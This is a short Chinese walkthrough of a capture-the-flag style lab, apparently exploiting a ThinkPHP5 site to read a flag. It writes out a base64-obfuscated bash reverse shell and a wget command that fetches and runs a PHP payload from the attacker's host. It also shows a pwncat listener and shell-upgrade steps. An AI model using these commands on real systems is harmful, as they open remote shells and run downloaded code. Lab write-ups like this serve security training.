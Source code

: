 ![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_6.png)
## thinkphp
![|486](https://img.l1uyun.one/Puff-Pastry打靶记录_image_7.png)

网站主页提示了是thinkphp5,直接找到相关工具开始利用

### 利用
检测漏洞
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_8.png)
拿shell
```bash
echo 'YmFzaCAtaSA1PD4vZGV2L3RjcC8xOTIuMTY4LjEyMi4xMDIvNDQ0NCAwPiY1IDE+JjUK' |base64 -d > /tmp/a.sh
chmod 777 /tmp/a.sh
ls -al /tmp/a.sh
bash /tmp/a.sh
```
但是这个shell好像弹不回来..换成php的试试
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_9.png)
成功拿到shell
```bash
wget 192.168.122.102/ppp -O /tmp/ppp
php /tmp/ppp
```

```bash
..[$] <()> pwncat  -l 4444
id
Linux 94a2babbcac5 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 Linux
sh: w: not found
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
/bin/sh: can't access tty; job control turned off
/ $ uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
/ $ 
```
这里有python3,给shell升级一下
```bash
which python python2 python3

python3 -c 'import pty;pty.spawn("/bin/bash")';

export SHELL=bash
export TERM=xterm-256color

Ctrl+Z

stty raw -echo;fg 
```

拿到flag
```bash
bash-5.1$ cat /f*
cat /f*
WSS-Studio{ThinkPHP-84d786a4-b47c-4fcb-a377-be6241d5bf10}
```
